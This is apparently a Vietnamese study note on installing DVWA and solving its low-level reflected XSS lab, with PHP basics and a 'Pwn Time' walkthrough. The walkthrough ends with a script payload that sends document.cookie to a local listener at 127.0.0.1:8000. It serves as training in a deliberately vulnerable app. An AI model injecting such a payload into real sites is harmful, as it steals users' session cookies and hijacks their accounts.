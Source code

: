 # Install DVWA on Ubuntu
[Kali](https://www.youtube.com/watch?v=GmWQ1VIjd2U&list=PLHUKi1UlEgOJLPSFZaFKMoexpM6qhOb4Q&ab_channel=CryptoCat)
[Ubuntu](https://www.youtube.com/watch?v=kMUdmmTL7OM&ab_channel=gp_sec)
> Install PHP & Apache2 & mysql
> www-data user

# XSS Reflected
## What?
Lợi dụng client request từ server, server sẽ respond lại thì lúc này hacker sẽ trả về respond chứa mã độc bao gồm <br>
user request.

## How?
### Low level
![image](https://github.com/user-attachments/assets/fdf93f3b-71f3-4570-be23-e80618d17bc5)

*Đầu tiên khi vào OWASP ta sẽ view source php*

> header() in php

1. Redirect to another page. <br>
```php
<?php
header("Location: https://www.example.com");  
exit; // Prevent further code execution 
?>
```
Nó sẽ gửi  request 'chuyển tiếp' đến server. Yêu cầu server phải đưa cho nó cái link trên. Dùng exit để đảm bảo ko <br>
có câu lệnh nào chèn thêm. <br>
2. Tránh caching
  
```php
<?php
header("Cache-Control: no-cache, must-revalidate");
header("Expires: Sat, 26 Jul 1997 05:00:00 GMT");
?>  
```
> Caching là gì?

Lưu lại những cái hoạt động thường xuyên của user để tăng tốc độ truy cập web. Cải thiện performance, giảm load on <br>
backend sys, database...

Ví dụ ở trên cho ta biết đó là loại Browser-caching, nó sẽ gia hạn cho resources được phép tồn tại bao lâu. Ngoài ra, <br>
mik còn 1 số loại caching như: Server side caching, CDN caching, Application Level caching... Bên cạnh đó đi kèm đó chính là <br>
những stragegy để caching (sẽ tìm hiểu sau)

> $GET

Siêu biến toàn cục (super global variable) dùng để lấy dữ liệu đc gửi qua URL thông qua phương thức GET

Example:
```http://example.com/index.php?name=Hung&age=30```

Ở đây mình sẽ sử dụng $GET để lấy name và age <br>

```php
<?php
$name = $_GET['name']; // "Hung"
$age = $_GET['age'];   // "30"

echo "Name: " . $name . "<br>";
echo "Age: " . $age;
?>
```

> array_key_exists(key, var)

Kiểm tra có tồn tại khóa *key* ở trong dãy *var* không?

## Pwn Time
1. Tạo 1 local host port 8000 = python3

![image](https://github.com/user-attachments/assets/340be4e7-2977-4853-b900-be0bea77fe46)

2. 
Mik sẽ chạy javascript trong input box, lúc đó biến 'name' = malicious code.
```
<script>window.location='http://127.0.0.1:8000/?cookie=' + document.cookie</script>
```
3. Kết quả
![image](https://github.com/user-attachments/assets/206feb0f-cedc-40aa-9c1a-80c09e8c0baa)
*Session id của user sẽ được gửi về terminal của attacker*



